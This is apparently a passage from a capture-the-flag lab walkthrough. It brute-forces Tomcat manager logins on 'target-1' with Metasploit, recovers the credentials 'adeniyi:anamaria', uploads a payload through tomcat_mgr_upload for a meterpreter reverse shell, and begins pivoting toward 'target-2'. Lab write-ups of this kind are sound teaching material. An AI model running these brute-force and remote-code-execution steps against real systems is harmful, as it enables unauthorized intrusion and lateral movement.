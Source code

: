 We can now take these comma separated results, put them in a file and use them for any further modules. You could manually edit the file or we can run a quick `sed` on the file to fix it up for us.

Command:
`cat users.lst | sed 's/, /\n/g' > users_line.lst`

We will also want to use the `names.txt` file that was supplied to us as well. This is a list of just names. We'll run that as well and append the output of that to our new list.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-31.png" >}}

Once we have that all completed, we'll use the `tomcat_mgr_login` module to see if we can get any valid logins.

Command:
`msf5> use auxiliary/scanner/http/tomcat_mgr_login`

We set our `rhost`, `pass_file` and `user_file`. The first time we run this, we keep our passfile as default. Set our `rhost` to `target-1` and our `user_file` to our user created file. We don't get any results. We are going to rerun the module, this time with the `100-common-passwords.txt`.

{{< figure src="__GHOST_URL__/content/images/2020/01/target-1_user.gif" >}}

We get a credential set, `adeniyi`:`anamaria`. Now we want to leverage those credentials to leverage an Authenticated RCE. So again, we will `search` for `tomcat` inside `Metasploit` but this time we will add an additional search parameter. We will add `type:exploit` to our search. This will narrow down the results to exploits only.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-32.png" >}}

Much like a previous CTF we've done. We want to use the `tomcat_mgr_upload` module.

Command:
`msf5> use 7` or `msf5> use exploit/multi/http/tomcat_mgr_upload`

Once insidet he module we'll check the `options`. We see that we need to set `HttpPassword`, `HttpUsername`, `rhosts`, `rport` and `lhost`.

Commands:
`msf5> set httpusername adeniyi`
`msf5> set httppassword anamaria`
`msf5> set rhost target-1`
`msf5> set rport 8080`
`msf5> set lhost eth1`
`msf5> run`

{{< figure src="__GHOST_URL__/content/images/2020/01/tomcat_payload_1.gif" >}}

We get a `meterpreter` shell back! Now we need to identify `target-2`. Like before we start by looking at our IP address: `ifconfig`. We see the output is a bit different in a `meterpreter` shell.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-33.png" >}}

There are two methods of enumerating our new subnet. The first is to use the Metasploit module, `ping_sweep`. The second is to write a quick bash command. We'll go over both. 

First method: Metasploit module.
We will background our current session.

Command:
`meterpreter> background`
